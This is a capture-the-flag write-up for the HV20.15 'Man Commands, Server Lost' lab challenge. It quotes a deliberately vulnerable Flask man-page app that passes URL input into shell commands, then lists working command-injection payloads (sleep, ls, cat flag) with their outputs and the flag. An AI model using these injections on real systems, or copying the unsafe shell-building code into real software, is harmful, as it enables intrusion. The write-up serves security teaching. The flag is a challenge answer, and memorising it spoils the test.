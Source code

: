 # Day 15 / HV20.15 Man Commands, Server Lost


## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: inik
* Tags:   #penetration-testing #web-security
* Level:  hard

### Introduction

Elf4711 has written a cool front end for the linux man pages. Soon after
publishing he got pwned. In the meantime he found out the reason and improved
his code. So now he is sure it's unpwnable.


### Notes

* You need to start the web application from the `RESOURCES` section on top
* This challenge requires a VPN connection into the Hacking-Lab. Check out the
  document in the `RESOURCES` section.

### Hints

* Don't miss the source code link on the man page


### Resources

* Man Commands server instance
* Student VPN instructions



## Solution

The challenge's web application looks like this:

![](screenshot_man_server.png)

… and here is the web app's source code:

````python
# flask_web/app.py

from flask import Flask,render_template,redirect, url_for, request
import os
import subprocess
import re

app = Flask(__name__)

class ManPage:
  def __init__(self, name, section, description):
    self.name = name
    self.section = section
    self.description = description

@app.route('/')
def main():
  return redirect('/man/1/man')

@app.route('/section/')
@app.route('/section/<nr>')
def section(nr="1"):
  ret = os.popen('apropos -s ' + nr + " .").read()
  return render_template('section.html', commands=parseCommands(ret), nr=nr)

@app.route('/man/')
@app.route('/man/<section>/<command>')
def manpage(section=1, command="bash"):
  manFile = "/usr/share/man/man" + str(section) + "/" + command + "." + str(section) + ".gz"
  cmd = 'cat ' + manFile + '| gunzip | groff -mandoc -Thtml'
  try: 
    result = subprocess.run(['sh', '-c', cmd ], stdout=subprocess.PIPE)
  except subprocess.CalledProcessError as grepexc:                                                                                                   
    return render_template('manpage.html', command=command, manpage="NOT FOUND")

  html = result.stdout.decode("utf-8")
  htmlLinked = re.sub(r'(<b>|<i>)?([a-zA-Z0-9-_.]+)(</b>|</i>)?\(([1-8])\)', r'<a href="/man/\4/\2">\1\2\3</a><a href="/section/\4">(\4)</a>', html)
  htmlStripped = htmlLinked[htmlLinked.find('<body>') + 6:htmlLinked.find('</body>')]
  return render_template('manpage.html', command=command, manpage=htmlStripped)

@app.route('/search/', methods=["POST"])
def search(search="bash"):
  search = request.form.get('search')
  # FIXED Elf4711: Cleaned search string, so no RCE is possible anymore
  searchClean = re.sub(r"[;& ()$|]", "", search)
  ret = os.popen('apropos "' + searchClean + '"').read()
  return render_template('result.html', commands=parseCommands(ret), search=search)
  
def parseCommands(ret):
  commands = []
  for line in ret.split('\n'):
    l = line.split(' - ')
    if (len(l) > 1):
      m = l[0].split();
      manPage = ManPage(m[0], m[1].replace('(', '').replace(')',''), l[1])
      commands.append(manPage)
  return commands

if __name__ == "__main__":
  app.run(host='0.0.0.0' , port=7777)
````


### Interpreting the attack possibilities

One of the three entry points is better than the others. It's the one with 
`@app.route('/man/')`. Through that entry point it is even possible to print
results back to the web page as the `command` variable is not parsed there.

`return render_template('manpage.html', command=command, manpage=htmlStripped)`

And that means that it's not necessary to use a reverse shell contrary to what
the challenge description says.

Here follows a list of increasingly better injections:

* `/man/1/man; sleep 5; %23`

   Output: ``

   This injection just makes the server wait for 5 seconds in order to proof
   that an injection is possible.

* `/man/1/man; echo "oooooohhhhhhh my" ; %23`

   Output: `ohhhhhhh my`

   This injection shows that output to the webpage is possible. It also
   demonstrates that the first 5 characters from an output get cut away.

* `/man/1/man; echo "12345"; pwd; echo ""; ls; %23`

   Output: `/ bin boot dev etc flag home lib lib64 media mnt opt […]`

   This injection shows that access on the remote file system works perfectly
   except for newline characters.

* `/man/1/man; echo "12345"; cat flag; echo " "; %23`

   Output: `HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}`

   This injection gets the flag.

--------------------------------------------------------------------------------

Flag: `HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}`

